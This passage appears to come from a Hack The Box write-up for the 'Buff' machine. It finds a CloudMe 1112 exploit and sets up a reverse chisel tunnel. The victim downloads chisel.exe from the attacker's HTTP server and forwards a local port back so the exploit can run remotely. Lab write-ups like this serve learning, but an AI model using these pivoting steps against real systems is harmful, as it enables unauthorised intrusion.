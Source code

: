 On googling CloudMe_1112 exploit we find that it is infact vulnerable.

<img src="/assets/img/Posts/Buff/google-cloudme.png">

Reading the [exploit](https://www.exploit-db.com/exploits/48389). We would be needing python and python is not installed on Buff.
We will do port forwarding with help of chisel and execute the exploit from our machine. Here is a [good article](https://fumenoid.github.io/posts/port-forwarding) explaining port forwarding via chisel. Downlod chisel from [here](https://github.com/jpillora/chisel/releases). Start a python http server and transfer chisel.exe to buff.

### Port forwarding

Starting a chisel server on my machine.
```shell
┌──(sid㉿kali)-[~/Documents/resources]
└─$ ./chisel_1.6.0_linux_amd64 server -p 4567 --reverse   
2020/11/22 10:59:28 server: Reverse tunnelling enabled
2020/11/22 10:59:28 server: Fingerprint cf:c5:96:ba:73:47:60:48:db:de:7d:23:aa:54:b5:3b
2020/11/22 10:59:28 server: Listening on 0.0.0.0:4567...
```
Transfer chisel.exe to buff and run it as a client.
```shell
PS C:\users\shaun> invoke-webrequest -Uri http://10.10.14.3:8000/chisel.exe -OutFile chisel.exe
PS C:\users\shaun> ./chisel.exe client 10.10.14.3:4567 R:8888:127.0.0.1:8888
./chisel.exe client 10.10.14.3:4567 R:8888:127.0.0.1:8888
2020/11/22 05:33:27 client: Connecting to ws://10.10.14.3:4567
2020/11/22 05:33:28 client: Fingerprint cf:c5:96:ba:73:47:60:48:db:de:7d:23:aa:54:b5:3b
2020/11/22 05:33:29 client: Connected (Latency 255.3366ms)
```
